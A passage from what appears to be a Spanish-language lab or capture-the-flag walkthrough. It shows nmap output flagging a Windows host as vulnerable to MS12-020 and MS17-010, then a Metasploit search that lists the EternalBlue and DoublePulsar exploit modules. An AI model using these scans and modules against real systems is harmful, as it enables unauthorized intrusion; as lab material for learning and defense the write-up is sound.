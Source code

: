 ```bash
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49158/tcp open  msrpc          Microsoft Windows RPC
49159/tcp open  msrpc          Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.22 seconds
```

## METASPLOIT

Cuando estemos dentro de Metasploit buscaremos el exploit del CVE de la maquina.

```bash
msf6 > search CVE-2017-0144

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
